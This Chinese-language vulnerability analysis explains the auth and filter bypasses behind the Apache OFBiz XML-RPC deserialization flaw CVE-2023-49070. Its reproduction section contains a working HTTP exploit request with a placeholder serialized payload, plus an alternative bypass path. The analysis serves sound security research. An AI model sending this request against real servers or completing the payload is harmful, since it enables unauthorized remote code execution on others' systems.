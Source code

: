 - [CVE-2023-49070 Apache OFbiz 远程代码执行](#cve-2023-49070-apache-ofbiz-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [XML RPC 反序列化](#xml-rpc-反序列化)
    - [Bypass](#bypass)
      - [Auth Bypass](#auth-bypass)
      - [Filter Bypass](#filter-bypass)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-49070 Apache OFbiz 远程代码执行
## 影响版本
< 18.12.10
## 环境搭建
https://ofbiz.apache.org/download.html  

`gradlew loadAll ofbiz --debug-jvm`启动调试
## 漏洞原理
### XML RPC 反序列化
XML RPC反序列化主要是因为CVE-2020-9496漏洞，Apache OFbiz 有一个XML RPC EventHandler，位于`java/org/apache/ofbiz/webapp/event/XmlRpcEventHandler.java`，其使用的Apache XML RPC组件是存在反序列化漏洞的，如果XML数据中含有`<serializable>`标签，那么Apache XML RPC会对`<serializable>`标签数据进行b64解码然后进行反序列化。  
![](img/15-47-44.png)  
### Bypass
在针对CVE-2020-9496漏洞的修复过程中，一共修复了两次，第一次是为该接口添加了认证要求。  
![](img/15-50-25.png)  
然后第二次在cacheFilter中针对xmlrpc接口对POST内容做了`<serializable`标签关键字检查。  
![](img/15-51-28.png)  
而这两次的修复都可以被绕过，导致该反序列化接口仍然可以未授权访问，导致未授权的RCE。  
#### Auth Bypass
对于认证检查，问题主要出在其检查是否登录的逻辑中，对于webtools/control路径下方法调用的处理主要位于`org/apache/ofbiz/webapp/control/RequestHandler.java`中，其中会对请求的路由判断是否需要验证。  
![](img/16-09-14.png)  
如果需要验证，其会调用`java/org/apache/ofbiz/webapp/control/LoginWorker.java#checkLogin`方法进行检查是否登录，而我们则需要返回`success`。 
![](img/16-16-37.png)  
而该方法中想要最后返回`success`那么就不能执行到`return error`和`return impersonated`.对于返回error的条件其判断逻辑如下
![](img/16-18-42.png)  
主要有两个地方，首先username，password不能为null，然后`"error".equals(login(request, response))`语句必须为false.  
来到login方法中，其有一段代码逻辑导致了这次绕过。  
![](img/16-24-44.png)  
我们需要返回的内容不是error就行，也就是说只要`requirePasswordChange`变量为True，`unpwErrMsgList`不为空就可以返回`requirePasswordChange`.  
其中requirePasswordChange的值是将从请求中的requirePasswordChange变量和字符`Y`做比较，该值可控。  
而`!unpwErrMsgList.isEmpty()`的判断可以从前面几行代码看到unpwErrMsgList的生成过程,在这里使用了`UtilValidate.isEmpty`来判断username和password是否为空，其中的逻辑是如果为null或变量长度为0则判断为Empty。  
![](img/16-30-28.png)  
如果为空则会向unpwErrMsgList中添加错误信息，那么则可以满足`!unpwErrMsgList.isEmpty()`条件。  
也就是说我们只要传递一个`USERNAME=&PASSWORD=&requirePasswordChange=Y`的query即可满足其登录验证的所有条件，这样USERNAME和PASSWORD变量既满足了不为null的条件也满足了`UtilValidate.isEmpty`判断变量为Empty的条件。  
#### Filter Bypass
在Cache Filter中，主要逻辑由两部分，首先是判断uri是否是`/control/xmlrpc`,然后再判断请求中是否含有`</serializable`标签。
```java
        String context = ((HttpServletRequest) request).getContextPath();
        String uriWithContext = ((HttpServletRequest) request).getRequestURI();
        String uri = uriWithContext.substring(context.length());

        if ("/control/xmlrpc".equals(uri.toLowerCase())) {
            // Read request.getReader() as many time you need
            request = new RequestWrapper((HttpServletRequest) request);
            String body = request.getReader().lines().collect(Collectors.joining());
            if (body.contains("</serializable")) {
                Debug.logError("Content not authorised for security reason", "CacheFilter"); // Cf. OFBIZ-12332
                return;
            }
        }
```  
绕过的关键在于第一步中，其进行对比的uri来源于HttpServletRequest.getRequestURI,通过该种方式来判断请求的接口是否是/control/xmlrpc,但getRequestURI获取到的是请求的原始URI，并没有做归一处理，然而在RequestHandler中对请求路径和方法进行映射时的处理逻辑有一些小差异，解析URI对应的方法的逻辑位于`java/org/apache/ofbiz/webapp/control/RequestHandler.java#resolveURI`中。  
![](img/17-18-47.png)  
可以到看到寻找的逻辑就是通过getRequestUri方法获取到请求的uri然后在requestMapMap去寻找对应匹配的方法，而getRequestUri进行处理的路径是由`req.getPathInfo();`获取的，而pathInfo方法获取到的路径是经过归一处理的，然后在getRequestUri方法中获取URI的方式是将path根据`/`分隔然后返回第一个元素作为URI。  
![](img/17-20-27.png)  
那么我们传入`/xmlrpc`和`/xmlrpc/`(后面接任意数量的`/`都可以)那么其split之后的第一个元素都会是xmlrpc。所以对于该filter的绕过只需要在`/webtools/control/xmlrpc`路径后面加任意数量的`/`即可绕过绕过对`/control/xmlrpc`关键字的检测但又不影响后续路由映射。 
![](img/17-26-23.png)  
![](img/17-26-56.png)
## 漏洞复现 
```http
POST /webtools/control/xmlrpc//////?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Cookie: OFBiz.Visitor=10207
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/xml
Content-Length: 4125

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">b64</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
![](img/17-27-40.png)  
/webtools/control/xmlrpc///;//;/也可。
## 补丁
移除了XML-RPC组件相关代码。
## 参考
https://www.cnblogs.com/ph4nt0mer/p/13576739.html